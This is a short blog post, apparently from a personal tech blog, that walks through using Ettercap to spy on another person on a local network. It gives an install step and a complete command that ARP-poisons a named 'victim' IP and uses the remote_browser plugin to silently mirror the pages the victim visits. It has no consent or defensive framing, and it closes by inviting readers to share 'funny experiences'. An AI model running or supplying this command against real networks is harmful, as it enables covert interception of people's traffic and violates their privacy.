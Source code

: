 ```yaml
---
layout: post
published: true
title: ! 'HackerGuide: Sniff Live Network Connections Using Ettercap'
permalink: /hackerguide-sniff-live-network-connections-using-ettercap/
wordpress_id: 609
categories:
- News
- Linux
- hack
- ssl
- sniff
- ettercap
- networking
- using ettercap
- ettercap guide
- ettercap ubuntu
- ettercap remote browser
- how to use ettercap
- LAN
- local network device
- network tool
---
```



Ettercap is a great and useful network tool. Ettercap is basically a suite of tools for sophisticated man in the middle attacks on LAN, VLAN, and WIFI-networks. It features sniffing of live connections, content filtering on the fly and many other interesting tricks. It supports active and passive dissection of many protocols (even ciphered ones like SSL, SSH, and TLS) and includes many feature for network and host analysis.

The following guide will show howto use Ettercap to get local browser on the attacking machine silently follow web pages that a given victim visits.

<strong>Install ettercap</strong>

```

sudo aptitude install ettercap

```


<strong>Run ettercap</strong>

```

ettercap -T -Q -M arp:remote -i wlan0 /10.10.10.23/ // -P remote_browser 

```


<strong>wlan0</strong> denotes the local network device and <strong>10.10.10.23</strong> denotes the IP of the victim on the LAN.

Feel free to comment and share funny experiences - be careful - ettercap is a very powerful tool. 
